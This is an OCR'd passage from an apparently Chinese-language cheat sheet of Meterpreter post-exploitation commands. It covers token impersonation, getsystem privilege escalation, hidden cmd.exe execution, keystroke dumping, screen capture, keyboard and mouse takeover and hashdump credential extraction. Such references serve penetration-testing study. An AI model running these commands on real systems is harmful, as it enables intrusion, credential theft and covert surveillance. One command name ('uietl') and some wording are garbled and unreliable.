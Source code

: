- drop_token

停止假冒当前的令牌。

- getsystem

通过各种攻击向量来提升到系统用户权限。

- shell

以所有可用令牌来运行一个交互的shell。

- execute -f cmd.exe -i

执行cmd.exe命令并进行交互。

- execute -f cmd.exe -i -t

以所有可用令牌来执行cmd命令。

- execute -f cmd.exe -i -H -t

以所有可用令牌来执行cmd命令并隐藏该进程。

- rev2self 

回到控制目标主机的初始用户账户下。

- reg command

在目标主机注册表中进行交互，创建，删除和查询等操作。

- setdesktop number

切换到另一个用户界面（该功能基于那些用户已登录）。

- screenshot

对目标主机的屏幕进行截图。

- upload file

向目标主机上传文件。

- download file

从目标主机下载文件。

- keyscan_dump

存储目标主机上或许的键盘记录。

- getprivs

尽可能多的获取目标主机上的特权。

- uietl enable keyboard/mouse

接管目标主机的键盘和鼠标。

- background

将你当前的meterpreter shell转为后台执行。

- hashdump
